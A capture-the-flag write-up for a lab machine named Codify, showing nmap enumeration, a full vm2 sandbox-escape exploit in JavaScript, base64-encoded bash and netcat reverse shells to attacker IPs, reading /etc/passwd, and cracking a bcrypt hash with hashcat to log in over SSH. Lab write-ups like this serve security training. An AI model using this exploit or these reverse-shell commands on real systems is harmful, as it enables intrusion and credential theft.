




## Codify
{: .mx-auto.d-block :}


The IP provided is :

```
10.10.11.229 
```

### Enumeration

Running nmap on the machine provides the following results:
```bash
$ sudo nmap -sC -sV 10.10.11.229     
# Nmap 7.92 scan initiated Fri Nov 10 01:25:34 2023 as: nmap -sC -sV -o nmap_results.txt 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 10 01:25:50 2023 -- 1 IP address (1 host up) scanned in 15.89 seconds
```

From the scan we see that port 22 is open for ssh, which we come to later, port 80 and port 3000 both runnning an HTTP service with 3000 being a Nodejs application.


There is also a link for **codify.htb** shown in the scan result, this is added to the **/etc/hosts** file.

Opening the website in a browser shows us that it is an application that allows users to run Nodejs code right on the browser. This may potentially lead to an RCE.

http://codify.htb/about - Tells us that it is running the **vm2** library to run the code on the browser. Checking for any known vulnerabilities in this library we find this
[**vm2 sandbox escape**](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) .


### Exploit
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('cat /etc/passwd');
}
`
console.log(vm.run(code))


```
This enables us to run arbitrary code on the system even though some libraries like "child_processes" is blacklisted by the application. Thereby allowing us to bypass the sandbox environment.

Running
```bash
cat /etc/passwd
```
in the exploit Gives us the following response:
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh:x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false


```

from this we can see that there are 3 users in the system:
root,joshua,svc.

We are currently logged in as svc. (Run the **whoami** command)

Now we need to have a reverse shell to perform privilege escalation and to retrieve the flags.

However at this point, I couldnt get any of the typical reverse shell command to work properly such as these,

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```bash
nc -e /bin/sh 10.0.0.1 1234
```

That's when I ran the **ps aux** command on the code editor page with the exploit that I noticed something,

 


```bash
echo
YmFzaCAtaSA+JIAvZGV2L3RjcC8xMC4xMC4xNi4yNi80NDQOIDA+JjE=|base64 -d|bash -i
```
This command caught my eye, decoding the base64 encoded text revealed this:

```bash
$ echo YmFzaCAtaSA+JIAvZGV2L3RjcC8xMC4xMC4xNi4yNi80NDQOIDA+JjE=|base64 -d
bash -i >& /dev/tcp/10.10.16.26/444 0>&1 
```

I am not sure how this command was being run in this system, perhaps it was run by another player on the box, but this gave me the idea and used the same method by altering the IP address and port to suite my system and sent this command using the exploit:

```bash
$ echo "bash -i >& /dev/tcp/10.10.16.22/8080 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS84MDgwIDA+JjEK
```
Make sure to use your IP and preffered port for the above command.

Set up your netcat listener using the above used port for capturing the reverse shell:

```bash
nc -lnvp 8080
```

Final exploit to gain RCE:


```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS84MDgwIDA+JjEK | base64 -d | bash -i');
}
`
console.log(vm.run(code))
```

Running this will get you the reverse shell as svc user.

Moving to the  /var/www/contact directory shows us these:


```bash
svc@codify:/var/www/contact$ ls
ls
index.js
package.json
package-lock.json
templates
tickets.db

```

***tickets.db looks interesting and it does contain hashed password for the joshua user.***




```$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2```

This is an example of the BCRYPT hash since it begins with the "$2a" prefix. We use tools like hashcat or john the ripper to crack it.

```ps
hashcat -m 3200 -a 0 hash rockyou.txt
```




The password was cracked and it seems that the password is:

**spongebob1**

We use this to login as joshua and gain the user flag !

```bash
$ ssh joshua@codify.htb -p 22                       
joshua@codify.htb' password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
Last login: Sun Nov 12 07:14:17 2023 from 10.10.16.15'

joshua@codify:~$ cat user.txt
```


